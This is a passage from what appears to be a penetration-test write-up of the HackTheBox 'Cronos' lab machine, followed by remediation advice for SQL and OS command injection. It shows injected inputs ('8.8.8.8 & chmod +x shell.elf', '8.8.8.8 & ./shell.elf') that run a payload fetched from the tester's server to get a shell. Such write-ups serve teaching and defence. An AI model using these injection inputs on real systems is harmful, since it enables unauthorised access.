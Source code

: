 Success was confirmed on the local http server: 

```
10.129.227.211 - - [16/Feb/2023 01:09:00] "GET /shell.elf HTTP/1.1" 200 
```

Finally, initial access was gained by adding execution permissions and then running the payload:

```
8.8.8.8 & chmod +x shell.elf
8.8.8.8 & ./shell.elf
```

This produced a use level shell running as www-data. 

[![](/cronos/usershell.png)](/cronos/usershell.png)

### Vulnerability explanation: Injection Attacks 

When user input is not sanitized between an application's front end and back end, user's may be capable of using special characters to inject additional, unintended commands into an application in order to gain arbitrary command execution. 

### Vulnerability Fix 

#### For http://admin.cronos.htb/ 

This webpage is vulnerable to SQL injection. 

- consider using functions such as mysql_real_escape_string() to sanitize user input. 
- Consider developing IPS detections to deny HTTP POST traffic containing the above listed SQL injection payloads. 

#### For http://admin.cronos.htb/welcome.php

This tool is vulnerable to OS shell command injection.


- consider filtering common command shell redirection and escape sequences such as &, &&, `, and similar
- as these are network tools that can only accept an IP address as input, please consider filtering all input that cannot be validated as an IP address
- if feasible, reimplement these applications natively in PHP instead of relying on passthrough to the operating system
- since this box already has public facing SSH, consider not implementing these tools in the web interface at all, and set up a limited account that can be remotely accessed from whitelisted IP addresses to perform these tasks. 
- develop IPS detections to block HTTP POST traffic containing shell redirection and escape sequences.

### Proof of Concept Code: 
